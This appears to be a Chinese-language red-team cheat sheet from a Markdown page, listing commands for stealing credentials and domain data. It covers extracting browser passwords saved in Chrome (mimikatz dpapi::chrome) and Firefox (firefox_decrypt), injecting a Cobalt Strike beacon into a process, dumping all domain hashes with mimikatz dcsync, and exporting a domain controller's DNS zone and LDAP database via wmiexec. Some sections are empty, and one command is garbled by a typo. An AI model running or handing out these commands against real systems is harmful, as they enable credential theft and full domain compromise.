 https://www.nirsoft.net/password_recovery_tools.html



### Foxmail 7.2 客户端保存的账号密码

7.2.x 的账号密码默认是加密保存在 accounts 目录下的 Account.rec0文件中，拖回本地解密即可



### chrome 保存的账号密码

```
mimikatz dpapi::chrome /in:"%apppdata%\Google\Chrome\User Data\Default\Login Data" /unprotecctmimikatz
```

### firefox 保存的账号密码

```
dir %appdata%\Mozilla\Firefox\Profiles 
#把firefox的数据(通常是C:\Users\UserName\AppData\Roaming\Mozilla\*.*)拷贝下来
python firefox_decrypt.py Firefox
```



[firefox_decrypt](https://github.com/unode/firefox_decrypt.git)

### secureCRT 7.x 中保存的密码



## windows

### 导出xxx.com域控ntds.dit

```
beacon> inject 3372 x64 doc# 将进程注入到3372
beacon> shell net user sunyingyun /domain
beacon> mimikatz lsadump::dcsync /domain:xxxx.com /all /csv

```







### 导出xxxx.com域控中的完整dns记录

```
wmiexec.exe xxx/sysadmin:"password"%10.7.6.10 "dnscmd /zoneexport xxxx.com dns.txt"
```



### 导出xxxx.com域内完整ldap数据库

```
wmiexec.exe xxxx/adadmin:"password"@10.7.6.10 "LDIFDE -f c:\windows\debug\dump.ldf -n -m"

```



### 导出xxxx.com 域控中所有域用户的成功登入日志记录

```

```





### 